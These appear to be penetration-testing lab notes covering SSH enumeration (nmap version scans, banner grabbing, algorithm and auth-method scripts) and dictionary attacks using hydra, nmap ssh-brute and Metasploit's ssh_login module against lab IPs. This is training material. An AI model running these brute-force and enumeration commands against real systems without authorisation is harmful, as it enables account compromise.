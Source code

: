 ### SSH

#### Basics

```bash
john@kali> ip a
john@kali> ping 192.250.219.3
john@kali> nmap 192.250.219.3

# 1. What is the version of SSH server.
john@kali> nmap 192.250.219.3 -p 22 -sV

# 2. Fetch the banner using netcat and check the version of SSH server.
john@kali> nc 192.250.219.3 22

# 3. Fetch pre-login SSH banner.
john@kali> ssh root@192.250.219.3

# 4. How many “encryption_algorithms” are supported by the SSH server.
john@kali> nmap 192.250.219.3 -p 22 --script ssh2-enum-algos

# 5. What is the ssh-rsa host key being used by the SSH server.
john@kali> nmap 192.250.219.3 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full

# 6. Which authentication method is being used by the SSH server for user “student”.
john@kali> nmap 192.250.219.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=student"

# 7. Which authentication method is being used by the SSH server for user “admin”.
john@kali> nmap 192.250.219.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=admin"

# 8. Fetch the flag from /home/student/FLAG by using nmap ssh-run script.
john@kali> ssh student@192.250.219.3
student@victim> cat FLAG
```

#### Dictionary attack

```bash
john@kali> ip a
john@kali> ping 192.254.198.3
john@kali> nmap 192.254.198.3

# 1. Find the password of user “student” using hydra.
john@kali> hydra -l student -P /usr/share/wordlists/rockyou.txt.gz 192.254.198.3 ssh

# 2. Find the password of user “administrator” use appropriate Nmap scripts
#    with password dictionary: /usr/share/nmap/nselib/data/passwords.lst
john@kali> echo 'administator' > user.txt
john@kali> nmap 192.254.198.3 -p 22 --script ssh-brute --script-args passdb=/usr/share/nmap/nselib/data/passwords.lst,userdb=user.txt

# 3. Find the password of user “root” using ssh_login Metasploit module
#    with userpass dictionary: /usr/share/wordlists/metasploit/root_userpass.txt
john@kali> msfconsole
msf5> use scanner/ssh/ssh_login
msf5> set rhosts 192.254.198.3
msf5> set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
msf5> set verbose true
msf5> set stop_on_success true
msf5> run

# 4. What is the message of the day? (Printed after the user logs in to the SSH server).
john@kali> ssh root@192.254.198.3
```
